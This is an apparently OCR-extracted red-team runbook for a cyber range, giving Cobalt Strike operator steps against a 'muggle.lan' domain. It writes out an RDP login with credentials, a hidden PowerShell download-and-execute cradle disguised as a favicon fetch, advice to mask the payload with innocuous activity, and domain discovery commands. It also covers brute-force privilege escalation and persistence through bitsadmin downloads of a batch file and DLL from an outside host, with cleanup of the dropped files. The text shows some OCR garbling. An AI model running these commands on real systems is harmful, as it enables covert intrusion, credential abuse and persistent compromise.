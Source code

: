 xfreerdp /cert:ignore /v:104.53.222.5 /u:jake.potts /p:1qaz2wsx!QAZ@WSX /d:muggle.lan 
Consider doing other innocuous activities before and after the payload execution. On Remote Host: 
� Task Manager > Run: powershell -win h -c "iex (iwr -useb http://macfeelabs.com/favicon.ico)" 
� Wait for beacon check-in 
� Disconnect from RDP 
 
Discovery 
> Left-click initial beacon 
> Right-click>Interact Console: 
sleep 60 20 shell whoami /all shell ipconfig /all shell netstat -ant shell netstat -r shell qwinsta 
shell nltest /domain_trusts powershell $entry = 
[System.DirectoryServices.DirectoryEntry]::new("LDAP://$([S ystem.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain().Name)"); $searcher = 
[System.DirectoryServices.DirectorySearcher]::new($entry); 
$searcher.Filter = ("(objectClass=computer)"); 
$searcher.FindAll().properties.name; 
NOTE: Copy/Paste via the "send text to VM" can cause unexpected errors (randomly remove characters/randomly add spaces). Consider copying from VM-embedded docs, using automation, or verifying paste is correct. 
 
 
Privilege 
Escalation 
 
Cobalt Strike: 
� Cobalt Strike > Script Manager 
� Load > ~/Desktop/brutesim.cna 
� Left-click initial beacon 
� Right-click > BruteSim 
� Listener: HTTP_MDS1 
� Username: Administrator 
� Password: Simspace1!Simspace1! 
� Domain: MUGGLE-16 
� Failed attempts: 40 
� Delay (seconds): 0.5 



	� 	Execute 
A new elevated beacon should spawn. 
 
Persistence 
 
Download persistence files and close beacon: 
� Left-click NON-ELEVATED beacon � 	Right-click > Interact 
shell cmd /c bitsadmin /transfer bbbb http://macfeelabs.com/test/install.bat C:\Users\Public\install.bat shell cmd /c bitsadmin /transfer bbbb http://macfeelabs.com/test/storesyncsvc.dll 
C:\Users\Public\storesyncsvc.dll exit 
� Left-click elevated beacon 
� Right-click > Interact Console: 
sleep 60 20 
shell cmd /c C:\Users\Public\install.bat shell cmd /c del C:\Users\Public\install.bat C:\Users\Public\storesyncsvc.dll 
� Wait for beacon check-in 
� Left-click persistence SYSTEM beacon � 	Right-click > Interact 
sleep 900 20 
 